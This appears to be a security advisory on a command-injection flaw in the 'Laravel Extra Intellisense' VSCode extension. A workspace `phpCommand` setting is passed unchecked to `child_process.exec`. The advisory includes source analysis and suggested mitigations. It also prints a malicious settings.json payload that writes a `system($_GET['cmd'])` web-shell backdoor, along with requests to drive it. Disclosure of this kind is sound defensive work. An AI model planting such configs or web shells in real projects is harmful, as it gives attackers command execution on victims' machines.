 - Vulnerability Name: Malicious phpCommand Configuration leading to Remote Code Execution

- Description:
    1. A malicious actor crafts a Laravel project and includes a `.vscode/settings.json` file within it.
    2. In this `settings.json`, the attacker sets a malicious `phpCommand` configuration for the "LaravelExtraIntellisense" extension. This configuration is designed to execute arbitrary PHP code when the extension attempts to run PHP commands. For example, the `phpCommand` could be set to: `echo '; system($_GET["cmd"]);' > /tmp/evil.php; php /tmp/evil.php`. This command, when executed, will create a PHP backdoor file named `evil.php` in the `/tmp/` directory (or equivalent temporary directory depending on the OS) and then execute it. This backdoor is designed to execute system commands passed through the `cmd` GET parameter.
    3. A victim, who has the "Laravel Extra Intellisense" extension installed in VSCode, opens this malicious Laravel project.
    4. The "Laravel Extra Intellisense" extension, upon activation or during its regular operations to provide autocompletion features, executes PHP commands using the configured `phpCommand`. This happens because the extension needs to run PHP code in the Laravel application context to gather information for autocompletion (like routes, views, configs etc.).
    5. Due to the malicious `phpCommand` configuration, when the extension executes a PHP command, it inadvertently triggers the attacker's injected code. In the example `phpCommand`, this results in the creation and execution of the `evil.php` backdoor.
    6. The attacker can now remotely execute arbitrary commands on the victim's machine by sending HTTP requests to the Laravel application, utilizing the created backdoor. For example, if the Laravel application is served locally on port 8000, the attacker can send a request like `http://localhost:8000/?cmd=whoami` to execute the `whoami` command on the victim's system.

- Impact:
    Critical. Successful exploitation of this vulnerability allows for Remote Code Execution (RCE). An attacker can execute arbitrary system commands on the victim's machine with the same privileges as the user running VSCode. This can lead to complete system compromise, data theft, malware installation, and other malicious activities.

- Vulnerability Rank: Critical

- Currently implemented mitigations:
    None. While the `README.md` file includes a "Security Note" warning users that the extension runs their Laravel application and to be cautious, this is not a technical mitigation and does not prevent the vulnerability. It merely informs the user of a potential risk.

- Missing mitigations:
    - Input validation and sanitization for the `LaravelExtraIntellisense.phpCommand` setting. The extension should not allow users to configure arbitrary shell commands.
    - Ideally, the `phpCommand` setting should be removed entirely. The extension should internally construct the necessary PHP commands and execute them in a safe manner, without relying on user-provided command templates.
    - If the `phpCommand` setting is deemed necessary for advanced configurations (e.g., Docker, Sail), strict validation and sanitization must be implemented to prevent command injection. This could include:
        - Whitelisting allowed characters and disallowing shell metacharacters.
        - Ensuring the command only starts with a path to the PHP executable.
        - Preventing modification of core command structure and arguments.

- Preconditions:
    1. The victim has the "Laravel Extra Intellisense" VSCode extension installed and enabled.
    2. The victim opens a malicious Laravel project in VSCode.
    3. The malicious Laravel project is specifically crafted to include a `.vscode/settings.json` file that sets a malicious `LaravelExtraIntellisense.phpCommand` configuration.

- Source code analysis:
    1. File: `src/helpers.ts`
    2. Function: `runPhp(code: string, description: string|null = null) : Promise<string>`
    3. Line: `let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";`
        - This line retrieves the `phpCommand` setting from the VSCode configuration. If no setting is provided, it defaults to `php -r "{code}"`.
    4. Line: `let command = commandTemplate.replace("{code}", code);`
        - This line constructs the final command by replacing the `{code}` placeholder in the `commandTemplate` with the `$code` argument (the PHP code to be executed).
    5. Line: `cp.exec(command, ...)`
        - This line executes the constructed `command` using `child_process.exec()`. Critically, there is no validation or sanitization of either the `commandTemplate` (obtained from user configuration) or the `$code` argument before execution. This allows an attacker to inject arbitrary shell commands via the `phpCommand` setting.

- Security test case:
    1. Setup:
        - Ensure you have the "Laravel Extra Intellisense" extension installed in VSCode.
        - Create a new, empty directory named `malicious-laravel-project`.
        - Inside `malicious-laravel-project`, create a subdirectory named `.vscode`.
        - Inside `.vscode`, create a file named `settings.json` with the following content:
          ```json
          {
              "LaravelExtraIntellisense.phpCommand": "echo '; system($_GET[\"cmd\"]);' > public/evil.php; php public/evil.php"
          }
          ```
        - Open the `malicious-laravel-project` directory in VSCode.
        - Open a new VSCode integrated terminal in the `malicious-laravel-project` directory.
        - Run `php artisan serve` to start a local Laravel development server.

    2. Trigger Vulnerability:
        - Wait for the Laravel development server to start (typically on `http://127.0.0.1:8000`).
        - Open a web browser and navigate to `http://127.0.0.1:8000/?cmd=whoami`.

    3. Verify Impact:
        - Observe the output in the browser. If the vulnerability is successfully exploited, you will see the output of the `whoami` command, which is the username of the user running the PHP development server (and VSCode).
        - To further verify RCE, try other commands like `id` (on Linux/macOS) or `type C:\Windows\System32\drivers\etc\hosts` (on Windows), replacing `whoami` in the URL with these commands (e.g., `http://127.0.0.1:8000/?cmd=id`).
        - Additionally, check the `public/` directory of your `malicious-laravel-project`. You should find a file named `evil.php`, which is the backdoor created by the malicious `phpCommand`.

    4. Expected Result:
        - The browser should display the output of the system command you executed via the `cmd` GET parameter, confirming Remote Code Execution.
        - The `evil.php` backdoor file should be present in the `public/` directory.

This test case demonstrates that by configuring a malicious `phpCommand`, an attacker can achieve Remote Code Execution when a user opens a project with this crafted setting in VSCode with the "Laravel Extra Intellisense" extension.
